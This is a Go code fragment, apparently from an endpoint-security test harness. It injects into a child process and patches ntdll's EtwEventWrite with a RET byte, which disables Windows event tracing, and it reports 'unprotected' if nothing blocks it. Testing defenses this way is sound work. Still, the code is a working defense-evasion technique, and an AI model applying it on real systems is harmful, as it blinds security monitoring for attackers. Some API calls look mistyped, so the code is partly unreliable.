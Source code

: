 ```go
	// get process handle
	procHandle, err = windows.OpenProcess(windows.PROCESS_ALL_ACCESS, false, uint32(cmd.Process.Pid))
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to get process handle: %s", err))
		Endpoint.Stop(1) // ERROR
	}

	// allocate memory in target
	var remoteAddr uintptr
	remoteAddr, err = windows.VirtualAllocEx(procHandle, 0, 4096, windows.MEM_COMMIT, windows.PAGE_EXECUTE_READWRITE)
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to allocate memory: %s", err))
		Endpoint.Stop(1) // ERROR
	}

	// write dummy data to allocate memory [NOP slide to simulate patching]
	dummyData := []byte{0x90, 0x90, 0x90, 0x90}
	var written uint32
	err = windows.WriteProcessMemory(procHandle, remoteAddr, &dummyData[0], uint32(len(dummyData)), &written)
	if err != nil || written != uint32(len(dummyData)) {
		Endpoint.Say(fmt.Sprintf("[-] Failed to write to process memory: %s", err))
		Endpoint.Stop(1) // ERROR
	}
	// Verify the memory was patched
	verifyMemoryPatch(procHandle, remoteAddr, dummyData)

	// Attempt to patch ETW functions
	patchETW()

	Endpoint.Say("[+] ETW patching executed successfully")
	Endpoint.Stop(101) // UNPROTECTED: Malicious behavior not blocked

}

func patchETW() {
	// patching ETW functions in ntdll.dll
	ntdll := windows.NewLazySystemDLL("ntdll.dll")
	etwEventWrite := ntdll.NewProc("EtwEventWrite")

	// allocate memory for patch
	mem, err := windows.VirtualAlloc(0, 4096, windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_EXECUTE_READWRITE)
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to allocate memory for ETW patch: %s", err))
		Endpoint.Stop(1) // ERROR
	}

	// write patch to memory
	patch := []byte{0xC3} // RET instruction to bypass function
	copy((*(*[1 << 20]byte)(unsafe.Pointer(mem)))[:], patch)

	// patch EtwEventWrite
	err = windows.WriteProcessMemory(windows.CurrentProcess(), etwEventWrite.Addr(), &patch[0], uintptr(len(patch)), nil)
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to patch EtwEventWrite: %s", err))
		Endpoint.Stop(1) // ERROR
	}
}

```